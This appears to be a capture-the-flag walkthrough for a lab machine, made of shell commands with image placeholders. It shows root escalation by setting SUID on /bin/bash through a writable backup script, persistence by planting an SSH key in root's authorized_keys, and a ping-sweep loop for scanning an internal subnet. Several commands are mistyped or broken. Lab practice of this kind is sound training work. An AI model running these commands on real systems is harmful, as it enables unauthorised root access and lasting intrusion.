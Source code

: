 ```java
```
![[Pasted image 20230914141629.png]]
```java
find \-user hagrid98 2>/dev/null
```
![[Pasted image 20230914142351.png]]
![[Pasted image 20230914142323.png]]
```java
ls 
ls -la
cat .backup.sh
```
![[Pasted image 20230914142432.png]]
```java
chmod u+s /bin/bash
```
![[Pasted image 20230914142705.png]]
```java
ls -la .backup.sh /bin/bash 
```
![[Pasted image 20230914142916.png]]
```java
bash -p
whoami
cd /root/
ls
cat horcrux2.txt
```
![[Pasted image 20230914143110.png]]
```java
echo base64 -d; echo
```
![[Pasted image 20230914143207.png]]
```java
cd /root/
ls -la
cd .ssh/
```
![[Pasted image 20231024105734.png]]
```java
ssh-keygen
```
![[Pasted image 20231024105800.png]]
```java
cat ~/.ssh/id_ras.pub tr -d '\n'
nano authorized_keys
```
![[Pasted image 20231024112428.png]]
```java
cat authorized_keys 
ssh root@192.168.153.153
```
![[Pasted image 20231024112910.png]]
```java
#!/bin/bash
for i in $(seq 1 254); do 
 timeout 1 bash -c "ping -c 1 10.10.0.$i &/dev/null && echo "[+] HOST 10.10.0.$i - ACTIVE
 done
 wait
```